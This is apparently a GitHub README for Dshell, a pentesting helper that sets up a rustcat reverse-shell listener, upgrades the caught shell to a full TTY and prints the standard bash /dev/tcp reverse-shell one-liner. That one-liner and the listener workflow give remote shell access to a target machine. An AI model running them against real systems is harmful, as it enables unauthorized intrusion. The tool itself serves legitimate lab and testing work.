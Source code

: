 # 🤔 What is this?

![](/Video/dshell.gif)

Tired of manually upgrading your reverse shell every time? Let Dshell handle it for you!

Dshell is a tiny reverse-shell helper that spins up a responsive listener and automatically upgrade your terminal on a given port using [rustcat](https://github.com/robiot/rustcat)

<br>

# ✨ Features

* Quickly set up a reverse shell listener.
* Fully responsive TTY with $${\text{\color{red}C}\text{\color{green}O}\text{\color{blue}L}\text{\color{yellow}O}\text{\color{orange}R}\text{\color{lightblue}S}}$$ and <ins>Tab Completion</ins>
* Auto-selects the best network interface when none is provided.

# 🛠️ Installation

1. Ensure [rustcat](https://github.com/robiot/rustcat) is installed on your system.
2.
```sh
git clone https://github.com/Bimo754/Dshell
cd Dshell
chmod +x install.sh
sudo ./install.sh
```

<br>


# 📖 Usage

**Dshell** has two modes, `listen` or `kill`

## Help Menu

```sh
dshell -h
```
**Usage**
```sh
Usage:

  dshell [options] [IFACE|IP]

Options:
  -p <PORT>        Port number to listen on.
  -k <PORT|all>    Kill dshell process on PORT or all running processes.

  [IFACE|IP]       Optional network interface or IP address to bind to.
```

## Run a Listener

```sh
dshell -p <PORT> [IFACE|IP]
```

Dshell will print the most commonly used reverse shell command (with the supplied IP and PORT), for example:

```sh
bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```

If you don't supply an interface or IP, Dshell will try these interfaces in order:

* `tun1`
* `tun0`
* `wlan0`
* `eth0`
* `lo`

## Kill Running Processes

```sh
dshell -k <PORT|all>
```

* `<PORT>` — Kill the Dshell process listening on the specified port.
* `all`  — Kill all running Dshell processes.

<br>

# Examples

Start a listener on port `4444` using `tun0` interface:

```sh
dshell -p 4444 tun0
```

Start a listener on port `4444` using the IP `1.1.1.1`:

```sh
dshell -p 4444 1.1.1.1
```

Kill `all` running Dshell processes:

```sh
dshell -k all
```

Kill Dshell processe that is listening on port `4444`:

```sh
dshell -k 4444
```

